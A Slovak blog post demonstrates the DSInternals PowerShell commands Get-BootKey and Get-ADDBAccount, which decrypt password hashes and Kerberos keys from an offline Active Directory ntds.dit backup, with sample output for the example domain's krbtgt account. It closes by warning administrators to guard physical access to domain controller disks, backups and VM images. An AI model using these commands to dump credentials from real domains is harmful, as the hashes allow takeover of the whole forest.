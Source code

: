 ﻿---
ref: dumping-ntds-dit-files
title: 'Vykrádanie hesiel zo zálohy Active&nbsp;Directory'
date: 2015-08-15T21:29:37+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-zo-zalohy-active-directory/
image: /assets/images/dbaccount.png
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---

Nedávno som písal o&nbsp;príkaze [Get-ADReplAccount](/sk/vykradanie-hesiel-z-active-directory-na-dialku/), pomocou ktorého je&nbsp;možné vzdialene vytiahnuť heslá a&nbsp;iné citlivé informácie z&nbsp;doménového kontroléru. Tieto dáta sú na&nbsp;každom doménovom kontroléri uložené v&nbsp;súbore **ndts.dit** a&nbsp;odtiaľ sa&nbsp;dajú získať aj&nbsp;napriamo. Dokáže to&nbsp;napríklad nástroj [NTDSXtact](https://github.com/csababarta/ntdsxtract), ale&nbsp;ten je&nbsp;určený pre&nbsp;Linux, nemá moc jednoduché ovládanie a&nbsp;na&nbsp;väčších databázach je&nbsp;dosť pomalý. Preto som do&nbsp;svojho [PowerShell modulu DSInternals](/sk/projekty/) pridal príkaz **Get-ADDBAccount**, ktorého použitie je&nbsp;hračka:

```powershell
# Z registrov najprv získame tzv. Boot Key, ktorým sú heslá zašifrované:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# Načítame databázu a dešifrujeme heslá všetkých používateľov:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# Môžeme vytiahnuť aj heslo konkrétneho účtu, na základe distinguishedName, objectGuid, objectSid či sAMAccountName:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
```

<!--more-->

Výstup vyzerá úplne rovnako ako v&nbsp;prípade príkazu [Get-ADReplAccount](/sk/vykradanie-hesiel-z-active-directory-na-dialku/):

```
DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda
```

Získané hashe hesiel sa&nbsp;dajú pomerne jednoducho využiť k&nbsp;ovládnutiu celého Active Directory forestu. Preto si&nbsp;dajte dobrý pozor na&nbsp;to,&nbsp;kto všetko má fyzický prístup k&nbsp;pevným diskom doménových kontrolérov, ich zálohám a&nbsp;v&nbsp;neposledom rade k&nbsp;VHD/VHDX/VMDK obrazom.
